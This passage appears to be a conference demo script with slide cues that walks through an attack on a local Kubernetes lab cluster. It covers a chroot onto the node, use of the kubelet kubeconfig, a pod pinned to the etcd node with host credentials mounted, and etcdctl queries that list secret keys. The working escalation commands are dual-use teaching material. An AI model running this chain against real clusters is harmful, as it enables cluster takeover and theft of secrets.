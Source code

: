 ```console
chroot /chroot
ps ax
```

SLIDE 22 - show host node

### STAGE 5 - GAIN CONTROL OVER THE CLUSTER

As we now have the host filesystem on the node we have access to the kubelet token, which has much wider permissions than the service account tokens we've been using up until this point.

```console
export KUBECONFIG=/etc/kubernetes/kubelet.conf
kubectl get pods -n kube-system
kubectl get nodes
```

SLIDE 24 kube-system namespace

Note that none of our other tokens let us do this, this is the kube-system namespace where the control plane for the entire cluster is running. We can also see the nodes, which is very useful to us, and we can find out where all of our kube-system pods are running. 

`kubectl describe pod etcd-kind-control-plane -n kube-system`

Note where the etcd cluster is running

However ...

```console
kubectl run -i --tty busybox --image=busybox --restart=Never -- sh
Error from server (Forbidden): pods "busybox" is forbidden: pod does not have "kubernetes.io/config.mirror" annotation, node "kind-worker" can only create mirror pods
```

This command fails because the kubelet token still doesn't have all the permissions needed to start containers in the kube-system namespace. The mirror pods line is interesting here, since it would allow us to launch any pod we want directly in kube-system by putting a YAML file into `/etc/kubernetes/manifests` on the node. This would then give us many attack vectors against the other control plane pods in the kube-system namespace

However, because we've escaped the Pod Security Policy and we now know which nodes we have, we can actually attack on a different vector at this point. We're going to launch a pod to the node hosting etcd, and in the Pod configuration we're going to mount the host filesystem to give us the credentials to connect to etcd. 

Show the YAML for the etcdclient pod. Note the specified node, and the credential mounting. 

`kubectl apply -f demo_yamls/etcdclient.yaml`

Now we can run etcdclient and check if we have a connection to etcd

`kubectl exec etcdclient -- /usr/local/bin/etcdctl member list`

SLIDE 25 Show etcdclient pod connecting to etcd

Etcd contains a lot of interesting information about the cluster, not least of which is secrets.

`kubectl exec etcdclient -- /usr/local/bin/etcdctl get '' --keys-only --from-key | grep secrets`
